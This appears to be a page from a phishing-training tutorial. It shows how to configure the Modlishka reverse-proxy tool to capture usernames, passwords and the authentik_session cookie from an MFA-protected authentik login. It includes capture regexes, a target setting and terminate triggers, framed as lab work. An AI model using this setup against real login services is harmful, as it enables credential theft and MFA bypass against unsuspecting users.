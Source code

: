 +++
title = "Reconfigure Modlishka With MFA Authentication Provider"
weight = 75
+++

Let's go through the authentication flow to determine what the username and password fields when conducting a normal login. First thing we want to do is open developer tools and ensure 'Persist Logs` is checked.

![Persist Logs](/static/how-to-phishing/authentik-devtools-persist-logs.png)

Now we can fill out the username field, press login, then look for the POST request.

![Username Request](/static/how-to-phishing/authentik-username-post-request.png)

Lets fill out our password and do the same.

![Password Request](/static/how-to-phishing/authentik-password-post-request.png)

We can see that the fields are `uid_field` and `password`.

Now we need to find a URL path that is only hit when the target successfully logs in. Lets finish the authentication process by completing the MFA challenge.

![Successful Login Request](/static/how-to-phishing/authentik-login-success-request.png)

Lets use `/if/user`.

Now we need to determine the session cookie.

![Authentik Session Cookie](/static/how-to-phishing/authentik-session-cookie.png)

Looks like `authentik_session` maybe the one we are after. We are lucky they used descriptive names and very few cookies.

Since we are testing in a lab environment, we need to configure `modlishka` to allow connections to private IPs. Change `disableSecurity` to `true` in the `config.json` file.

```json
  "disableSecurity": true,
```

We have all the required information to reconfigure Modlishka. Now we nee to start updating Modlishka configuration. We'll start with the `"target"` in Modlishka's configuration.

If you are in a live training, we'll want to configure are target to be the targets auth server.

```json
  "target": "auth.snakshare.com",
```

If not in a training this should be sufficient.

```json
  "target": "auth.target.docker:9000",
```

Now we need to create some regular expressions to match the username and password fields.

```bash
echo -n '"uid_field":\s*"(.+?)"' | base64
echo -n '"password":\s*"(.+?)"' | base64
```

![Base64 Cred Params](/static/how-to-phishing/modlishka-config-cred-params-base64.png)

We'll join these two values together with a comma, then update the `"credParams"` configuration value.

```json
  "credParams": "InVpZF9maWVsZCI6XHMqIiguKz8pIg==,InBhc3N3b3JkIjpccyoiKC4rPyki"
```

Finally, we need to update the `"terminateTriggers"` and `"terminateRedirectUrl"`.

```json
  "terminateRedirectUrl": "https://uvcyber.com/?phished",
  "terminateTriggers": "/if/user",
```
